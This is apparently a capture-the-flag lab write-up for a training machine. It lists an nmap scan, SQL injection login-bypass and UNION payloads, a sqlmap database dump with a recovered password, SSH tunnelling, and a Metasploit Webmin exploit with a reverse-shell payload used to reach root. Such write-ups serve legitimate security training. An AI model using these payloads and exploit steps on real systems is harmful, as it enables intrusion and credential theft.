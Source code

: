 ## NMAP

nmap -sV -o -T4 -Pn 10.10.190.211 -oN nmap/initial

### 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
### 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

SQL Injection in Login form

username : ' or 1=1 -- -
password : 

Access granted : portal.php

' UNION SELECT table_name,NULL,NULL FROM information_schema.tables -- -

## SQLMAP

Capture request usign burp and store in file

sqlmap -r request.txt --dbms=mysql --dump

User : agent47
Hash : ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
Password : videogamer124

Tables : post, users

## SSH

ssh agent47@10.10.190.211

Flag 1 : 649ac17b1480ac13ef1e4fa579dac95c

## SSH Tunneling

ss -tulpn

ssh -L 10000:localhost:10000 agent47@10.10.190.211

Version : 1.580

## Metasploit

Exploit : exploit/unix/webapp/webmin_show_cgi_exec
Payload : cmd/unix/reverse

Important : Server is accesible in our localhost so set RHOSTS 127.0.0.1

Exploit. Done


Root Flag : a4b945830144bdd71908d12d902adeee
